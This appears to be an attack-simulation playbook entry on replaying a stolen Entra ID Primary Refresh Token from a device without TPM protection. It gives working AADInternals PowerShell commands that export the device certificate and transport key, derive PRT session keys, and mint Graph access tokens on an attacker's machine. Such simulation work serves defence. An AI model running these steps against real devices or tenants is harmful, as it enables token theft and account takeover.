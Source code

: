 #### Replay PRT with exfiltrated transport and session keys

**Attack Description**

Attackers try to steal PRT from non-TPM-protected devices because the security chip is not available or has been disabled. Detection delay allows to steal the token and using token for a short period of time even if access to PRT and missing healthy TPM state (Intune Device Compliance) has been recognized.

**Pre-requisites**

- TPM has been disabled or is not available (permissions to modify TPM availability as Hyper-V administrator or access to UEFI/BIOS)
- Local Administrator permissions

**Attack use cases**

- Azure and Hyper-V Machines with Generation 1 (without TPM support) or older instances or images of W365/AVD without TPM support
- Attackers have been able to disable TPM temporary (physical: BIOS/UEFI, Azure/Hyper-V: Security settings)

**Steps to simulate an attack**

1. Verify TPM has been disabled or is not available
2. The user needs to re-enter credentials because previous PRT keys from TPM are not available anymore.
3. Run AADInternals as Administrator on the victim’s device:
    
    ```powershell
    Export-AADIntLocalDeviceCertificate
    Export-AADIntLocalDeviceTransportKey
    ```
    
4. Restart PowerShell with AADInternals module in user context
    
    ```powershell
    $DeviceId = Read-Host
    Get-AADIntUserPRTKeys -PfxFileName '.\$($DeviceId).pfx' `
    -TransportKeyFileName '.\$($DeviceId)_tk.pem'
    ```
    
5. Run AADInternals as Administrator on attacker’s device: 
    
    ```powershell
    $DeviceId = Read-Host
    $PrtJson = Get-Content -Path .\$($DeviceId).json | ConvertFrom-Json
    $PrtToken = New-AADIntUserPRTToken -GetNonce -RefreshToken $($PrtJson.refresh_token) -SessionKey $($PrtJson.session_key)
    Get-AADIntAccessTokenForAADGraph -PRTToken $PrtToken –SaveToCache
    Get-AADIntAccessTokenForMSGraph -PRTToken $PrtToken –SaveToCache
    ```
    
6. Optional: Re-activate TPM to recover health check if device compliance is configured
7. Continue to use PRT and session keys or refresh token which will be valid. Device compliance status is not directly included in token, deviceId as a claim will be used to check current compliance.
